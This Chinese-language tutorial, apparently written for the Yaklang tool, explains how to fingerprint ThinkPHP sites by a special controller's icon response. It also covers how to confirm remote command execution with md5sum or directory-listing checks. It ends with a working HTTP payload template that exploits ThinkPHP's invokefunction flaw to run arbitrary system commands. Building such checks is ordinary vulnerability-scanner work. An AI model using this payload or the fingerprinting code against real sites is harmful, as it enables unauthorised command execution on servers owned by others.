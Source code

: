 ### thinkphp的特殊Controller

在p牛的博客中看到thinkphp有个控制器4e5e5d7364f443e28fbf0d3ae744a59a，会返回站点的图标

所以当http://xxx.xx/index.php?c=4e5e5d7364f443e28fbf0d3ae744a59a返回一个图片时，就可以判定这是thinkphp站点

```Swift
rsp,_ = http.Get("http://xxx.xx/?c=4e5e5d7364f443e28fbf0d3ae744a59a")
rspB,_ = http.dump(rsp)
header,body = str.SplitHTTPHeadersAndBodyFromPacket(rspB)
println(string(body))
```

输出如图

![img](https://feishu-4dogs.feishu.cn/space/api/box/stream/download/asynccode/?code=YzUzOTY1NmMzZGVkMTUyYjc5MDJhZGU2ZGYxNTVlODhfcGxxR3VtRXhmdVMwcnBVT0lheFk3YktYWUoxUlhsVkNfVG9rZW46Ym94Y244dmdUZlVxU0duRnBITVdhaXlPek9mXzE2NDY4OTMyODU6MTY0Njg5Njg4NV9WNA)

从这里提取出两个指纹"IHDR"和"PNG"，如下

```D
// rootUrl是网站根路径
chechIcon1 = fn(rootUrl){
    u = rootUrl+"?c=4e5e5d7364f443e28fbf0d3ae744a59a"
    rsp,_ = http.Get(u)
    rspB,_ = http.dump(rsp)
    header,body = str.SplitHTTPHeadersAndBodyFromPacket(rspB)
    return str.Contains(string(body),"IHDR") && (str.Contains(string(body),"PNG") || str.Contains(string(body),"JPEG")) 
}
```

## 漏洞检测

如果返回包中包含预期的结果，就可以判定命令执行成功了，在此基础上，这个"预期的结果"还要和正常返回包区分开

如果是linux机器，可以执行这条命令`echo -n 'asdasczxc' | md5sum`，如果网站返回包包含`asdasczxc`的hash，则说明命令执行成功

如果是windows机器，可以执行`dir C:\Windows\`，因为windows机器`C:\Windows\`目录下有`system.ini`文件，所以如果返回包包含`system.ini`，则说明命令执行成功

## paylaod

可以通过[fuzz标签](https://www.yaklang.io/docs/buildinlibs/lib_fuzz#fuzz-标签定义以及使用)去写payload，如

```Apache
GET /index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
```
